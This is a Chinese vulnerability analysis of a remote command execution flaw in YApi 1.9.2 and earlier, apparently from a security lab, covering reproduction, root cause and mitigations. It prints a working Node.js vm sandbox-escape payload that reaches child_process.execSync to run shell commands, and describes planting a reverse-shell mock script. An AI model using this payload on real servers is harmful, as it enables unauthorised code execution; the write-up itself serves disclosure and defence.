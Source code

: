 > 原文链接: https://www.anquanke.com//post/id/247598 


# yapi 远程命令执行漏洞分析


                                阅读量   
                                **42589**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t013c22bfb27e978605.jpg)](https://p3.ssl.qhimg.com/t013c22bfb27e978605.jpg)



作者：0x4qE@知道创宇404实验室

## 0x01 简述

[Yapi](https://github.com/YMFE/yapi) 是高效、易用、功能强大的 api 管理平台，旨在为开发、产品、测试人员提供更优雅的接口管理服务。可以帮助开发者轻松创建、发布、维护 API，YApi 还为用户提供了优秀的交互体验，开发人员只需利用平台提供的接口数据写入工具以及简单的点击操作就可以实现接口的管理。

2021年7月8日，有用户在 GitHub 上发布了遭受攻击的相关信息。攻击者通过注册用户，并使用 Mock 功能实现远程命令执行。命令执行的原理是 Node.js 通过 `require('vm')` 来构建沙箱环境，而攻击者可以通过原型链改变沙箱环境运行的上下文，从而达到沙箱逃逸的效果。通过 `vm.runInNewContext("this.constructor.constructor('return process')()")` 即可获得一个 process 对象。

### <a class="reference-link" name="%E5%BD%B1%E5%93%8D%E7%89%88%E6%9C%AC"></a>影响版本

Yapi &lt;= 1.9.2



## 0x02 复现

复现环境为 Yapi 1.9.2，[Docker 环境](https://hub.docker.com/r/0x4qe/yapi_1.9.2_rce)已上传到 Dokcer Hub。

攻击者通过注册功能注册一个新用户，在新建项目页面创建一个新项目。

[![](https://p2.ssl.qhimg.com/t01547b4d3e398c7ccc.png)](https://p2.ssl.qhimg.com/t01547b4d3e398c7ccc.png)

在设置 -&gt; 全局 mock 脚本中添加恶意代码。设置命令为反弹 shell 到远程服务器。

[![](https://p0.ssl.qhimg.com/t01e7d11c57c2194e33.png)](https://p0.ssl.qhimg.com/t01e7d11c57c2194e33.png)

POC如下：

[![](https://p3.ssl.qhimg.com/t012f60ba32dffd44d8.png)](https://p3.ssl.qhimg.com/t012f60ba32dffd44d8.png)

随后添加接口，访问提供的 mock 地址。

[![](https://p5.ssl.qhimg.com/t01db32e65ac83eb381.png)](https://p5.ssl.qhimg.com/t01db32e65ac83eb381.png)

随后即可在远程服务器上收到来自命令执行反弹的 shell。

[![](https://p1.ssl.qhimg.com/t015a2def4b799614d6.png)](https://p1.ssl.qhimg.com/t015a2def4b799614d6.png)



## 0x03 漏洞分析

在 Github 上发布的新版本 1.9.3 已经修复了这个漏洞。[https://github.com/YMFE/yapi/commit/37f7e55a07ca1c236cff6b0f0b00e6ec5063c58e](https://github.com/YMFE/yapi/commit/37f7e55a07ca1c236cff6b0f0b00e6ec5063c58e)[/https://github.com/YMFE/yapi/commit/37f7e55a07ca1c236cff6b0f0b00e6ec5063c58e](//github.com/YMFE/yapi/commit/37f7e55a07ca1c236cff6b0f0b00e6ec5063c58e)

核心问题在`server/utils/commons.js line 635`

[![](https://p3.ssl.qhimg.com/t0163cfdc65473eda0b.png)](https://p3.ssl.qhimg.com/t0163cfdc65473eda0b.png)

修复后的代码引入了新的动态脚本执行模块 [safeify](https://github.com/Houfeng/safeify)，替换了原有的 [vm](https://nodejs.org/api/vm.html) 模块。根据 Node.js 官方的描述

> The vm module is not a security mechanism. Do not use it to run untrusted code.

`vm` 模块并不是一个完全安全的动态脚本执行模块。先来看看 vm 有哪些执行命令的函数。

[![](https://p4.ssl.qhimg.com/t01d59cdde03fd8e23f.png)](https://p4.ssl.qhimg.com/t01d59cdde03fd8e23f.png)

根据[官方文档](https://nodejs.org/api/vm.html#vm_vm_runincontext_code_contextifiedobject_options)，这三个函数都有一个参数 `contextObject` 用来表示上下文。但是这个上下文并不是完全隔离地运行的，可以通过原型链的形式实现沙箱逃逸。

```
&gt; vm.runInNewContext("this")
`{``}` // this 是一个空对象

&gt; vm.runInNewContext("this.constructor")
[Function: Object] // 通过 this.constructor 可以获得一个对象的构造方法

&gt; vm.runInNewContext("this.constructor('a')")
[String: 'a'] // 获得了一个字符串对象

&gt; vm.runInNewContext("this.constructor.constructor('return process')")
[Function: anonymous] // 获得了一个匿名函数 function() `{` return process; `}`

&gt; vm.runInNewContext("this.constructor.constructor('return process')()")
process `{`
  title: 'node',
  version: 'v10.19.0',
  ...
`}` // 获得了一个 process() 函数的执行结果
  // 接下来就可以通过 process.mainModule.require('chile_process').execSync('command') 来执行任意代码
```

有一种防护方案是将上下文对象的原型链赋值成 null，就可以防止利用 this.constructor 进行沙盒逃逸。`const contextObject = Object.create(null)`，但是这种方法有个缺点，这样禁用了内置的函数，业务需求完全得不到实现。有文章[Node.js沙盒逃逸分析](https://jelly.jd.com/article/5f7296d0c526ae0148c2a2bb)提到可以用 `vm.runInNewContext('"a".constructor.constructor("return process")().exit()', ctx);`绕过原型链为 null 的限制。测试后发现无效，如果不考虑业务需求的话，`Object.create(null)`应该是一种终极的解决方案了。

接下来我们可以下断点跟进看看漏洞是如何被利用的。在`server/utils/commons.js line 635`处下断点，构造 mock 脚本，然后访问 mock 接口，程序运行停止在断点处。使用 F11 `Step into` 进入`server/utils/conmmons.js`处，单步调试至`line 289`，再用 F11 进入沙盒环境。

```
const sandbox = this // 将沙盒赋给了变量 sandbox
const process = this.constructor.constructor('return process')() // 利用原型链进行沙盒逃逸获得 process 对象
mockJson = process.mainModule.require('child_process').execSync('whoami &amp;&amp; ps -ef').toString() // 给 sandbox.mockJson 赋值了命令执行的结果
```

函数执行结束后会调用 `context.mockJson = sandbox.mockJson` 并将 mockJson 作为 req.body 返回用户，于是就可以在页面中看到命令执行的反馈。



## 0x04 防护方案

1、更新 Yapi 至官方发布的 1.9.3，新版本用了更为安全的 safeify 模块，可以有效地防止这个漏洞。

2、如果没有使用注册的需求，建议关闭 Yapi 的注册功能。通过修改 Yapi 项目目录下的 config.json 文件，将 closeRegister 字段修改为 true 并重启服务即可。

3、如果没有 Mock 功能的需求，建议关闭 Yapi 的 Mock 功能。



## 0x05 相关链接

1、[高级Mock可以获取到系统操作权限](https://github.com/YMFE/yapi/issues/2099)<br>
2、[Node.js命令执行和沙箱安全](https://mp.weixin.qq.com/s/obDPE6ZWauDG7PeIES6sHA)<br>
3、[Node.js沙盒逃逸分析](https://jelly.jd.com/article/5f7296d0c526ae0148c2a2bb)

